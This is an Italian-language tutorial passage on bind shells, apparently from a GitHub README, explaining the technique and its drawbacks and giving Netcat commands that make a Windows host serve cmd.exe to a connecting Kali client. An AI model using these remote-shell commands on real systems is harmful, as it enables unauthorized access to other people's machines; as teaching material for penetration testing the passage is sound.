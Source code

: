 
# Bind Shell
Una bind shell é un tipo di connessione remota dove un attaccante esegue una connessione diretta verso un target in ascolto per poi aprire successivamete una shell su quest'ultimo. <br>
Per poter eseguire questa tecnica su Netcat abbiamo bisogno che il target abbia un listener netcat in ascolto su una determianta porta e questo é un porblema se non abbiamo accesso diretto alla macchina target. <br>
un altro aspetto negativo delle bind shell é che sono facilmente bloccabili dai sistemi di sicurezza come firewalls. 

per poter configurare una bind shell abbiamo bisogno di avviare `cmd.exe` quando un client effettua una connessione sul target listener quindi usiamo l'opzione `-e`: 
```bash
#Windows Listener
nc -nvlp PORT -e cmd.exe
```
```bash
#Kali Linux Client
nc -nv IP PORT
```
dopo aver eseguito il comando su kali linux avremo una shell cmd aperta dato che abbiamo detto al listener windows di eseguire `cmd.exe` quando un client effettua una connessione verso qella determinata porta. <br>
